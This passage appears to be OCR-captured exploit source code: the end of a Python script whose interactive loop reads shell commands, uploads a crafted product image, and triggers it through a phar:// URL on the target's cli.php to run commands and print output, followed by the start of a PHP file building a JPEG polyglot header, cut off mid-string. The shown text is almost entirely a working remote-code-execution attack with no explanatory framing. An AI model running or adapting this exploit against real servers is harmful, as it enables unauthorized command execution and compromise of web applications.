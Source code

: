 ```python
        return None

def trigger(payload):
    try:
        r = requests.get(HOST + f"/cli/cli.php?+-m+import+-c+phar:///www/{payload}/test.conf+-f+/etc/passwd")
        return r.content.decode()
    except Exception as e:
        logging.error(f"Trigger failed: {e}")
        return None

def exploit():
    try:
        while True:
            command = input("Command: ")
            if command.lower() == "exit":
                break
            if generate_payload(command):
                if upload_product():
                    payload = get_image()
                    if payload:
                        output = trigger(payload)
                        if output:
                            print(output)
                            continue
            print("Failed to execute command")
    except KeyboardInterrupt:
        logging.info("Exiting...")

if __name__ == "__main__":
    exploit()

```

gen.php
```php
<?php

$jpeg_header_size = 
"\xff\xd8\xff\xe0\x00\x10\x4a\x46\x49\x46\x00\x01\x01\x01\x00\x48\x00\x48\x00\x00\xff\xfe\x00\x13".
"\x43\x72\x65\x61\x74\x65\x64\x20\x77\x69\x74\x68\x20\x47\x49\x4d\x50\xff\xdb\x00\x43\x00\x03\x02".
"\x02\x03\x02\x02\x03\x03\x03\x03\x04\x03\x03\x04\x05\x08\x05\x05\x04\x04\x05\x0a\x07\x07\x06\x08\x0c\x0a\x0c\x0c\x0b\x0a\x0b\x0b\x0d\x0e\x12\x10\x0d\x0e\x11\x0e\x0b\x0b\x10\x16\x10\x11\x13\x14\x15\x15".
"\x15\x0c\x0f\x17\x18\x16\x14\x18\x12\x14\x15\x14\xff\xdb\x00\x43\x01\x03\x04\x04\x05\x04\x05\x09\x05\x05\x09\x14\x0d\x0b\x0d\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14".
"\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\x14\xff\xc2\x00\x11\x08\x00\x0a\x00\x0a\x03\x01\x11\x00\x02\x11\x01\x03\x11\x01".
"\xff\xc4\x00\x15\x00\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x08\xff\xc4\x00\x14\x01\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\xff\xda\x00\x0c\x03".
"\x01\x00\x02\x10\x03\x10\x00\x00\x01\x95\x00\x07\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x01\x05\x02\x1f\xff\xc4\x00\x14\x11".
"\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x03\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x11\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20".
"\xff\xda\x00\x08\x01\x02\x01\x01\x3f\x01\x1f\xff\xc4\x00\x14\x10\x01\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x20\xff\xda\x00\x08\x01\x01\x00\x06\x3f\x02\x1f\xff\xc4\x00\x14\x10\x01".
```